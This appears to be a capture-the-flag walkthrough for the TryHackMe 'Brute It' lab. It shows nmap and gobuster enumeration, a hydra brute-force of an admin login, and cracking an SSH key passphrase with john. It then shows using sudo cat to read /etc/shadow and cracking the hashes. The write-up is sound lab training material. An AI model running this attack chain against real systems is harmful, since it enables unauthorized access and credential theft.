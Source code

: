 # Brute It

**Room Link:** [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (117).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (119).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V
```

<figure><img src="../../.gitbook/assets/image (114).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (118).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa 
ssh -i id_rsa john@$VICTIM
pass: rockinroll
```



john can run cat as root, we can just use this to read root.txt but I decided to read the shadow file which I can't do from johns account, then send shadow and passwd files back to Kali to crack.

<figure><img src="../../.gitbook/assets/image (113).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
LFILE=/etc/shadow
sudo cat "$LFILE"
```

**Kali**

```
unshadow passwd shadow > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

<figure><img src="../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>











